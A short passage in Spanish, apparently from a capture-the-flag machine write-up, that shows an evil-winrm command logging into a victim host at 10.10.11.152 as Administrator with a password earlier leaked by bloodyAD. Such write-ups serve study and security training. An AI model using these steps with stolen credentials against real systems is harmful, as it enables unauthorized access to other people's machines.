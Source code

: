 Luego haciendo uso de `evil-winrm` podremos ingresar a la maquina victima con las credenciales que la herramienta `bloodyAD` filtro.

```php
❯ evil-winrm -S -i 10.10.11.152 -u 'Administrator' -p 't6VhA%N+Pik96+%A.Q05aDu8'
```

![20240306162531.png](20240306162531.png)

